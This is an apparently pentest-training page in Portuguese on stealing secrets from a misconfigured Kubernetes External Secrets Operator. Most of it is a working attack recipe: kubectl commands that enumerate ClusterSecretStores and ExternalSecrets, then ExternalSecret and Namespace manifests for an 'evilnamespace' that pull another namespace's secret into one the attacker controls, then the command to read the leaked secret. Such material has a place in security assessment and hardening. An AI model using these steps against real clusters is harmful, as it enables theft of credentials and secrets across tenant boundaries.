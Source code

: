 # External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**O autor original desta página é** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Esta página fornece algumas dicas sobre como você pode conseguir roubar segredos de um ESO mal configurado ou de uma aplicação que usa ESO para sincronizar seus segredos.

## Aviso Legal

A técnica mostrada abaixo só pode funcionar quando certas circunstâncias são atendidas. Por exemplo, depende dos requisitos necessários para permitir que um segredo seja sincronizado em um namespace que você possui / comprometeu. Você precisa descobrir isso por conta própria.

## Pré-requisitos

1. Um ponto de acesso em um cluster kubernetes / openshift com privilégios de administrador em um namespace
2. Acesso de leitura em pelo menos ExternalSecret a nível de cluster
3. Descubra se há algum rótulo / anotação ou associação a grupo necessária que permita ao ESO sincronizar seu segredo. Se você tiver sorte, pode roubar livremente qualquer segredo definido.

### Coletando informações sobre o ClusterSecretStore existente

Assumindo que você tem um usuário que possui direitos suficientes para ler este recurso; comece listando os _**ClusterSecretStores**_ existentes.
```sh
kubectl get ClusterSecretStore
```
### Enumeração de ExternalSecret

Vamos supor que você encontrou um ClusterSecretStore chamado _**mystore**_. Continue enumerando seu externalsecret associado.
```sh
kubectl get externalsecret -A | grep mystore
```
_Este recurso é escopado por namespace, então, a menos que você já saiba qual namespace procurar, adicione a opção -A para procurar em todos os namespaces._

Você deve obter uma lista de externalsecrets definidos. Vamos supor que você encontrou um objeto externalsecret chamado _**mysecret**_ definido e usado pelo namespace _**mynamespace**_. Reúna um pouco mais de informações sobre que tipo de segredo ele contém.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Montando as peças

A partir daqui, você pode obter o nome de um ou vários nomes de segredos (como definido no recurso Secret). Você terá uma saída semelhante a:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Até agora, temos:

- Nome de um ClusterSecretStore
- Nome de um ExternalSecret
- Nome do segredo

Agora que temos tudo o que precisamos, você pode criar um ExternalSecret (e eventualmente corrigir/criar um novo Namespace para atender aos pré-requisitos necessários para sincronizar seu novo segredo):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Após alguns minutos, se as condições de sincronização forem atendidas, você deverá conseguir visualizar o segredo vazado dentro do seu namespace.
```sh
kubectl get secret leaked_secret -o yaml
```
## Referências

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
